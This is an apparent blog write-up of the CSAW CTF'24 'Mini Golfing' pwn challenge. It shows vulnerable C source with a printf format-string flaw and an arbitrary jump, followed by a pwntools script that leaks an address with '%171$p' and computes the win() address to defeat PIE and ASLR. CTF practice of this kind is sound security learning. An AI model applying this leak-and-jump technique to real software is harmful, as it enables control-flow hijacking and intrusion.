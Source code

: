 ```yaml
---
title: CSAW CTF - Mini Golfing
description: A pwn chall. writeup from CSAW CTF'24
date: "2024-09-20"
---
```


![first](/blog-post-1.jpg)

## Let's get cracking...

### Challenge Description:

`Let’s go mini golfing! To win, just aim correctly! Except the hole with the pin keeps moving…`

Following is the main challenge file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define MAX_STRINGS 32

void win() {
    system("cat /flag.txt");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
            
    fflush(stdout);
    fflush(stdin);

    uintptr_t address;
    char *all_strings[MAX_STRINGS] = {NULL};
 char buf[1024] = {'\0'};

    printf("Welcome to PWN GOLF.\n");
    printf("Would you like to enter your name? ");
   
    fgets(buf, 1024, stdin);
    printf("hello: ");
 printf(buf);
   
    printf("\nAlright! Tell me the address you want to aim at!: ");
    scanf("%lx", &address);
    void (*target)(void) = (void(*))address;
    printf("Ok jumping to that address...");
    target();

    return 0;
}
```

## Challenge Breakdown:

It was a classic PWN challenge where the goal was to exploit a vulnerable program that allowed you to jump to any address you provided. The twist, however, was that both Position Independent Executable (`PIE`) and Address Space Layout Randomization (`ASLR`) were enabled, making it impossible to use static addresses to hijack the control flow. This meant I had to come up with a creative way to bypass the randomized memory layout. Instead of relying on known addresses, I had to leak or brute force information about the memory space to find where the key functions or gadgets were located.

### Solution:

```python
from pwn import *
from pwn import p64

binary = ELF("./golf")
#conn = process(binary.path)
conn = remote("localhost", 9999)

exploit = "%171$p"
conn.sendline(exploit)
leaked_address = conn.recvuntil(b"\n\n").split()
leaked_address = leaked_address[-1].decode('UTF-8')

leaked_addr_int = int(leaked_address, 16)

win_addr = leaked_addr_int - 26
win_addr = hex(win_addr)

conn.sendline(win_addr)
conn.interactive()
```

This exploit script solves the challenge by leveraging a format string vulnerability to leak the memory address of the `main` function. Since both `PIE` and `ASLR` are enabled, the program's memory layout is randomized, so static addresses cannot be used. The format string payload `%171$p` retrieves the address of the `main` function from the program's stack. Once the address is leaked and parsed, the script calculates the address of the `win` function by subtracting 26 (determined through prior reverse engineering). This offset allows the script to adjust for the randomized memory layout, effectively bypassing `ASLR` and `PIE` protections. The calculated `win` address is then sent, causing the program to jump to and execute the `win` function, thereby achieving code execution and solving the challenge.

**Flag:** `csawctf{I_doNT_want_t0_g0_901FING_AnymOrE_pl34S3_Thank_you_!!!}`

Thanks for reading — I hope this blog has helped you learn something new and useful.

Stay in the loop with my latest content – follow me on [Medium](https://medium.com/@iabdullah_215) for more!

## MUHAMMAD ABDULLAH
## THANKS
